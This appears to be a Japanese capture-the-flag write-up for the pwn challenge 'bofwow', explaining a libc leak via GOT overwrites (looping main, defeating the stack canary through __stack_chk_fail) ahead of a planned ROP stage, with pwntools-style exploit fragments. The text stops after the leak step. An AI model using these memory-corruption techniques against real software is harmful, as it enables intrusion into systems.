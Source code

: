 ```py
script = """
"""
t = create_io()
solve()
```

# [pwn] bofwow

## 分析

bofwwから`win`関数がなくなりました。

## 攻撃

1. libc leak
2. ROP

の順で攻撃をします。

### libc leak

ARWプリミティブがありますが、アドレスに含まれる"\x00"が出てきた時点までしか書き込めないため、一回の任意書き込みだけではROPもlibc
leakもできません。
そこで、`main`関数を何度も呼び出すことを考えます。

`main`関数の中で、最後の方に`ostream::operator<<(ostream&)`
が呼び出されていることから、このGOTをmain関数のはじめに書き換えると`main`
関数が終了することなく無限ループできそうです。
(なお、stringのデストラクタはアドレスに`0x10`が入っているため書き換えができません。)

libc leakは`ostream::operator<<(int)`を利用します。
`__stack_chk_fail`の書き換えにより、canaryを無効化できるため、`rbp`を任意の値に設定することができます。
すなわち、`main`関数の以下の部分で任意のアドレスの内容が出力できます。
PIEが無効であることから、GOT領域を読み出すことでlibc leakを実現できます。

```asm
mov eax, dword [rbp-0x44]
mov esi, eax
call sym std::ostream::operator<<(int)
```

exploitでは`setbuf`関数のGOTを読み出しました。

```py
    # 低位アドレスの読み出し
    rop_stage = p64(elf.sym["main"]) + b"B" * 0x108 + got_setbuf_P44h
    rop1 = ret + p64(0x004013E0) * 2 + got_op_ostream_str * 3
    sla(b"name?", rop_stage + rop1)
    sla(b"you?", i2b(0))
    libc_l = int(t.recvline()) & 0xFFFFFFFF
    
    # 高位アドレスの読みだし
    rop_stage = p64(elf.sym["main"]) + b"B" * 0x108 + got_setbuf_P48h
    rop1 = ret + print_info.ljust(0x10, b"\x00") + got_op_ostream_str * 3
    sla(b"name?", rop_stage + rop1)
    sla(b"you?", i2b(0))
    libc_h = (int(t.recvline()) & 0xFFFFFFFF) << 32
```
